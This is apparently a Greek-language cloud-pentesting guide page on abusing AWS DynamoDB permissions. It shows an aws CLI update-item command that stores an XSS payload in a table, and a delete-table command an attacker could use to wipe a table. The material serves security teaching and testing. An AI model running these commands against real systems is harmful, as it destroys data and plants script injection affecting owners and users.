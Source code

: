 ### `dynamodb:UpdateItem`

Αυτή η άδεια επιτρέπει στους χρήστες να **τροποποιούν τα υπάρχοντα χαρακτηριστικά ενός αντικειμένου ή να προσθέτουν νέα χαρακτηριστικά σε ένα αντικείμενο**. Δεν **αντικαθιστά** ολόκληρο το αντικείμενο; μόνο ενημερώνει τα καθορισμένα χαρακτηριστικά. Εάν το πρωτεύον κλειδί δεν υπάρχει στον πίνακα, η λειτουργία θα **δημιουργήσει ένα νέο αντικείμενο** με το καθορισμένο πρωτεύον κλειδί και θα ορίσει τα χαρακτηριστικά που καθορίζονται στην έκφραση ενημέρωσης.

{% tabs %}
{% tab title="XSS Example" %}
{% code overflow="wrap" %}
```bash
## Update item with XSS payload
aws dynamodb update-item --table <table_name> \
--key file://key.json --update-expression "SET Description = :value" \
--expression-attribute-values file://val.json
### With key.json:
{
"Id": {
"S": "1000"
}
}
### and val.json
{
":value": {
"S": "<script>alert(1)</script>"
}
}
```
{% endcode %}
{% endtab %}

{% tab title="Παράδειγμα AI" %}
```bash
aws dynamodb update-item \
--table-name ExampleTable \
--key '{"Id": {"S": "1"}}' \
--update-expression "SET Attribute1 = :val1, Attribute2 = :val2" \
--expression-attribute-values '{":val1": {"S": "NewValue1"}, ":val2": {"S": "NewValue2"}}' \
--region <region>
```
{% endtab %}
{% endtabs %}

**Πιθανές Επιπτώσεις:** Εκμετάλλευση περαιτέρω ευπαθειών/παρακάμψεων με την ικανότητα προσθήκης/τροποποίησης δεδομένων σε έναν πίνακα DynamoDB

### `dynamodb:DeleteTable`

Ένας επιτιθέμενος με αυτή την άδεια μπορεί να **διαγράψει έναν πίνακα DynamoDB, προκαλώντας απώλεια δεδομένων**.
```bash
aws dynamodb delete-table \
--table-name TargetTable \
--region <region>
```
**Πιθανές επιπτώσεις**: Απώλεια δεδομένων και διακοπή υπηρεσιών που εξαρτώνται από τον διαγραμμένο πίνακα.
